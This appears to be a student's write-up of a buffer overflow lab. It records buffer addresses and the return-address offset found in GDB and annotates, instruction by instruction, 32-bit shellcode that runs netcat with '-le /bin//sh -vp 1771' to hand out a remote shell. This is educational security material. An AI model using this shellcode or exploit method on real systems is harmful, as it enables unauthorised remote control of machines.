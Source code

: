 # Buffer starting address

In GDB: 0xffffd05b 
Outside GDB: 0xffffd01b

# Buffer offset

Buffer is located at: `ebp - 0x6d`
Return address is at: `ebp + 0x4`

So,

Buffer offset from frame pointer = 0x6d = 109 bytes

Buffer offset to return address = 113 bytes

# # Return address

Return Address = 0xffffd090

Found via exp-revshell.py

# First assembly instruction at return address

this will be the nop instruction due to the nop sled that appears at the start of the injected code.

# Shell code explanation

xor %eax, %eax:
Clears EAX, setting it to 0.

xor %edx, %edx:
Clears EDX (sets to 0), used for NULLs later.

push %eax:
Push NULL terminator for the final command string.

push $0x31373737:
Pushes the ASCII string `"1771"` (the port number) in reverse byte order.

push $0x3170762d
Pushes the ASCII string `"-vp1"` in reverse byte order.

Together, the last two pushes form the string: `-vp 1771`
   (used as arguments to `nc` for reverse shell)

mov %esp, %esi
Stores a pointer to the "-vp 1771" string into ESI.

push %eax
Push NULL terminator for next string ("/bin//sh").

push $0x68732f2f
Pushes ASCII string `"//sh"`.

push $0x6e69622f
Pushes ASCII string `"/bin"`.

push $0x2f656c2d
Pushes ASCII string `"-le/"` (for `-le /bin//sh`)

Combined, these pushes create: `-le /bin//sh`

mov %esp, %edi
Stores a pointer to the `-le /bin//sh` string into EDI.

push %eax
Push NULL terminator for the next string.

push $0x636e2f2f
Pushes ASCII string `"//nc"`.

push $0x6e69622f
Pushes ASCII string `"/bin"`.

Combined, these make `/bin//nc`

mov %esp, %ebx
Sets EBX to point to the command `/bin//nc` (netcat binary).

push %edx
Push NULL (argv[4] = NULL)

push %esi
Push pointer to `-vp 1771` string (argv[3])

push %edi
Push pointer to `-le /bin//sh` string (argv[2])

push %ebx
Push pointer to `/bin//nc` (argv[1])

mov %esp, %ecx
ECX = argv array (`argv = ["/bin//nc", "-le/bin//sh", "-vp 1771", NULL]`)

mov $0x0b, %al
Syscall number 11 (for `execve`)

int $0x80
Executes `execve("/bin//nc", argv, NULL)`  
This launches Netcat in reverse shell mode, connecting back to the attacker with `-le /bin//sh -vp 1771`
